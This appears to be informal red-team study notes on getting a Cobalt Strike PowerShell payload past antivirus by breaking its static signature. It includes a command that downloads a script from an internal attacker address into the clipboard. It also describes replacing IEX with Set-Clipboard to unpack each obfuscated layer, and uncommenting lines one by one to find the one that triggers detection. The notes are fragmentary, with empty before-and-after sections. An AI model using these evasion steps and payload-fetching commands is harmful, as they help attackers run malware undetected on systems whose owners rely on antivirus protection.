

resouce script essentially says, cobalt give me the file type and shellcode, ill do the rest


AV blocks this by default we need to break the static signature

what if we tried to copy it into the clipboard
> Set-ClipBoard -Value ((new-object net.webclient).downloadstring('http://10.0.0.204:80/zz'))
our clipboard now has the b64 compress zip (we paste it in) also gets blocked (now we must try and check the inner layer)

If we replace the IEX with Set-Clipboard and -Value- we can try the next layer
Before:

After:

- Now we can execute another layer deeper
- paste --> run

- SUCCESS!!
- you can now start going through and uncomment the lines, run everytime you uncomment
- you can find which line is fucking you
- rewatch